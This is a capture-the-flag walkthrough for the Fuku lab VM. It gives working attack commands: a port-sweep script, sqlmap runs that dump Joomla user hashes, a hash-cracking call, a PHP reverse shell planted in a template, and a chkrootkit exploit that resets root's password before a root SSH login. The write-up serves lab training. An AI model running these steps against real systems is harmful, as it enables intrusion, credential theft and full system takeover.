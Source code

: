 # BNE0x02 - Fuku CTF Walkthough by Bull (@RobertWinkel)

1)	Find the IP address, e.g. netdiscover -r 192.168.56.0/24 (note that as the IP address changes every 23 minutes or so, this may need to be done several times).

2)	Find the services (there is only the web server on port 13370). Doing a nmap scan will produce thousands of false hits, so one way to sort through the false hits is to write a script that grabs the HTML from every port and sort through to find a size that is out of the ordinary, e.g. I used a script similar to the following, but did 10,000 ports at a time (my machine couldn't handle any more simultaneous connections):
```
   #!/bin/bash
   for i in `seq 1 65535`;
   do
   	echo "Saving $i..."
   	wget http://192.168.56.104:$i -O $i -q -t 1 &
   done
   ls -lSr | tail -10
```
3)	Access the Joomla site at http://192.168.56.X:13370/. Notice that HD FLV Player is in use. Search Exploit DB or similar and find that there is an SQL injection in /index.php?option=com_hdflvplayer&id=1

4)	Take advantage of the SQL injection to get the Joomla usernames and password hashes, e.g.:
```
   sqlmap -u "http://192.168.56.104:13370/index.php?option=com_hdflvplayer&id=1" -p id --dbms mysql --tables --level=5 --risk=3
   sqlmap -u "http://192.168.56.104:13370/index.php?option=com_hdflvplayer&id=1" -p id --dbms mysql -T jos_users --columns
   sqlmap -u "http://192.168.56.104:13370/index.php?option=com_hdflvplayer&id=1" -p id --dbms mysql -T jos_users -C username,password --dump
```   

5)	Crack the hash for username “gizmo”, e.g. by using the script from http://morxploit.com/joomlacrack.txt:
```
./joomlacrack.pl 6da55fdfcf53a4b3a07390921866cc18 qECsCP9t5NwPILY77j6hGM2MrgX4Je39 rockyou.txt 
```

6)	Login to the Joomla administration portal as gizmo. Go to Extensions / Template Manager. Edit the HTML to add a PHP reverse shell, or similar.

7)	Start up the reverse handler. Visit the PHP file to activate it, e.g. http://192.168.56.104:13370/templates/beez/index.php

8)	Optional: Turn the shell into an interactive one, e.g.:
```
   python -c 'import pty; pty.spawn("/bin/sh")'
```

9)	Find out the chkrootkit v0.49 is being run, e.g. by a “ps -ef”.

10)	Search Exploit DB or similar and find that there is an exploit for chkrootkit (https://www.exploit-db.com/exploits/33899/). 

11)	Create the file /tmp/update with some code to run as root, e.g. to change root’s password to “Password1”:
```
   #!/bin/bash
   echo -e "Password1\nPassword1" | passwd root
   touch /tmp/done
```
Due to some of the restrictions in fuku, useful commands like “wget” have been removed. Therefore something like the following might be used to create the necessary file:
```
   $ cat <<EOF>/tmp/update
   > #!/bin/bash
   > echo -e "Password1\nPassword1" | passwd root
   > touch /tmp/done
   > 
   > EOF
   $ chmod 755 /tmp/update
```

12)	Wait until chkrootkit is executed again (it runs every 5 minutes), and then take advantage of the exploit. In the above example, after changing root’s password to “Password1”, the next logical step is to SSH in as root.
```
   root@kali:/var/www# ssh root@192.168.56.104
   root@192.168.56.104's password: Password1
   Welcome to Ubuntu 15.04 (GNU/Linux 3.19.0-15-generic i686)

    * Documentation:  https://help.ubuntu.com/

   0 packages can be updated.
   0 updates are security updates.

   Last login: Thu Aug 13 22:58:53 2015 from 192.168.56.102
```

13)	GAME OVER!

